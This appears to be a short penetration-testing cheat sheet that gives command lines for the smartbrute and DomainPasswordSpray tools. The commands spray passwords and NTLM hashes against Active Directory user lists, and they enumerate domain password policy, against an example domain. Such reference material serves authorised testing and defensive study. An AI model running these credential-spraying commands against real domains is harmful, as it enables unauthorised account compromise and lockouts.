 
### smartbrute

- [https://github.com/ShutdownRepo/smartbrute](https://github.com/ShutdownRepo/smartbrute)

Spray single hash against a list of users:

```
$ smartbrute -v brute --delay 100 --no-enumeration -bU users.txt -bh <HASH_TO_SPRAY> kerberos -d megacorp.local --dc-ip 192.168.1.11
```

Get domain password policy and active users:

```
$ smartbrute -v smart {--policy|--users} ntlm -d megacorp.local -u snovvcrash -p 'Passw0rd!' --dc-ip 192.168.1.11
```

Launch smart password spray with a hash:

```
$ smartbrute -v smart --delay 100 -bh <HASH_TO_SPRAY> ntlm -d megacorp.local -u snovvcrash -p 'Passw0rd!' --dc-ip 192.168.1.11 kerberos
```



### DomainPasswordSpray

* [https://github.com/dafthack/DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

```
PS > Invoke-DomainPasswordSpray -UserList .\all-users.txt -Domain megacorp.local -Password 'Passw0rd!' -OutFile spray-results.txt
```
